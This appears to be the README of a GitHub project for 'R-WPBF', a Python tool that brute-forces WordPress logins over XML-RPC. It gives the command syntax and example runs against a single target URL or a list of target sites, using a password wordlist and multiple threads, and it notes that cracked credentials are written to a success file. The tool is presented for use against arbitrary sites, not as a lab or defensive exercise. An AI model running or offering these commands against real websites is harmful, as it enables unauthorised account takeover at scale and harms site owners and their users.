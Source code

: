# R-WPBF
###
[![forthebadge made-with-python](http://ForTheBadge.com/images/badges/made-with-python.svg)](https://www.python.org/) [![GitHub license](https://img.shields.io/github/license/Naereen/StrapDown.js.svg)](https://github.com/Naereen/StrapDown.js/blob/master/LICENSE)
###
Rusher WPBF ( WordPress Brute Force ) ( XML-RPC )
###
![tool](https://raw.githubusercontent.com/Afrizall/R-WPBF/master/tool.jpeg)
###
```bash
python r-wpbf.py -x [target/list-target] -w [wordlist] -t [thread] -d [timeout]
```
###
```bash
python r-wpbf.py -x https://www.target.com/ -w list.txt -t 10 -d 3
```
OR
```bash
python r-wpbf.py -x list-target.txt -w list.txt -t 10 -d 3
```
###
Result Success
```
result-wp/success.txt
```

